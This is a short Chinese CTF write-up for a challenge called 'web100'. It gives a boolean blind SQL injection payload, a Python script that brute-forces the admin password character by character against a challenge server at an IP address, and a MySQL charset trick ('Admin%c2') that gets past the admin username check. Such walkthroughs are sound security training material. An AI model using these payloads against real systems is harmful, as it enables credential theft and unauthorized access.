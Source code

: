 ## web100 writeup 

bool 盲注出 passwd

payload: `admin'^!(mid((passwd)from(-1))='a')='1' from user;`

poc:

```python
#!/usr/bin/python
# coding:utf-8 

import requests 
import string

s = string.ascii_letters + string.digits
url = "http://39.108.154.135:8000?action=show"

def getPassword():
    username = "admin'^!(mid((passwd)from(-{pos}))='{passwd}')='1"
    passwd = ""
    for p in range(1,34):
        print(passwd)

        for i in s:
            passwdTmp = i + passwd
            data = {"username": username.format(pos=str(p), passwd=passwdTmp)}
            
            # print data
            res = requests.post(url ,data)
            if "admin" in res.text:
                passwd = passwdTmp
                break


if __name__ == "__main__":
    getPassword()
```

尝试用 sqlmap 注入结果注不出来。。。有师傅会的能提点一下吗

最后用 mysql 的字符编码问题,绕过对 admin 的判断,参考[Mysql字符编码利用技巧](https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html)

post
```
username=Admin%c2&passwd=注入出来的密码
```

